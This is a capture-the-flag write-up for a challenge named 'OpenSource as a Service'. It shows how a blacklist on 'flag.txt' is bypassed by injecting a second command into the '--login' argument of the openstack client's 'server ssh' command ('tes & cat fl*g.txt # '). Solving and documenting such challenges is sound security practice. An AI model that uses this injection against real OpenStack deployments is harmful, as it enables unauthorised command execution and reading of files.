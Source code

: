 # Write-up | OpenSource as a Service

You are given a pseudo-shell with a restricted set of commands: {ls, cat, openstack}

After doing a `ls` you see:

```bash
$ ls
flag.txt
```

But sadly when trying to launch a `cat` you get:

```bash
$ cat flag.txt
Command failed, I don't like this word
```

And it doesn't seem to be the flag..

After some testing you understand that `flag.txt` is blacklisted and try:

```bash
$ cat fla*.txt
Maybe it's not the real cat.. Maybe you should look somewhere else, idk ¯\_(ツ)_/¯
```

Sadly it seems to be a troll :/

Now you have one last command: `openstack`, obviously you need to exploit it somehow.

After a small grep on their [github repository](https://github.com/openstack/python-openstackclient) you find [this beautiful line](https://github.com/openstack/python-openstackclient/blob/master/openstackclient/compute/v2/server.py#L2093) and decide to exploit it.

First you need to setup an openstack somewhere on your personal server to get access to an existing one. You could also just mock all the openstack requests (setup a fake openstack server).

Once it's done you can do the following:

```bash
$ openstack server list # Choose a server ID with a public address (Ext-Net)
$ openstack server ssh --login "tes & cat fl*g.txt # " --address-type "Ext-Net" --port 22 <SERVER-ID>
```

Note that you will also need to pass some additional parameters for authentication (not listed above for clarity):

```bash
--os-region-name=REGION --os-tenant-name=1711678101234567 --os-tenant-id=a5486cdb71a745b6b4a6864497b5c123 --os-auth-url=https://openstack-auth-url/v2.0/ --os-username=openstack-username --os-password=openstack-password 
```

Please see *exploit/full_exploit.py* for the full automated exploit.

